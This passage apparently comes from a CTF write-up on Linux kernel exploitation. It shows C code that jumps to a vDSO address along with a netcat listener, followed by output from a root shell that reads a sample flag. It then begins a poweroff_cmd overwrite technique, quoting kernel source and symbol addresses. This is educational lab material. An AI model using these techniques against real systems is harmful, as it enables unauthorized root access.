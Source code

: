 So to execute gettimeofday I created a new process with fork() and made it execute  directly by accessing its address and by a normal call:
```c
if (fork() == 0){
	((void(*)(void))0xffffffff81e04c80)();
	gettimeofday(NULL, NULL);
	exit(-1);
}
system("nc -lp 3333");
```
Executing our payload we get:
```
/ $ /exp 
[+] channel id: 1
[+] kernel vDSO address: 0xffffffff81e04000
id
uid=0(root) gid=0(root)
cat flag
this is a sample flag
```
## Other Exploit Technique: poweroff_cmd -> prctl

So we will leak some kernel address...
Starting from kernel base, there is no kaslr so the base address is 0xffffffff81000000, the other addresses are:
```
ffffffff810a39c0 t poweroff_work_func
ffffffff81e4dfa0 D poweroff_cmd
```
This time we will use poweroff_cmd, just check the source code:
```c
static char poweroff_cmd[POWEROFF_CMD_PATH_LEN] = "/sbin/poweroff";
```
It is a static variable, so is a perfect target for modprob_path like attacks... `poweroff_work_func` is the function that will execute the malicious command...
```c
static bool poweroff_force;

static void poweroff_work_func(struct work_struct *work)
{
	__orderly_poweroff(poweroff_force);
}
```
Where `__orderly_poweroff` is defined as follows:
```c
static int __orderly_poweroff(bool force)
{
	int ret;

	ret = run_cmd(poweroff_cmd);

	if (ret && force) {
		pr_warn("Failed to start orderly shutdown: forcing the issue\n");

		/*
		 * I guess this should try to kick off some daemon to sync and
		 * poweroff asap.  Or not even bother syncing if we're doing an
		 * emergency shutdown?
		 */
		emergency_sync();
		kernel_power_off();
	}

	return ret;
}
```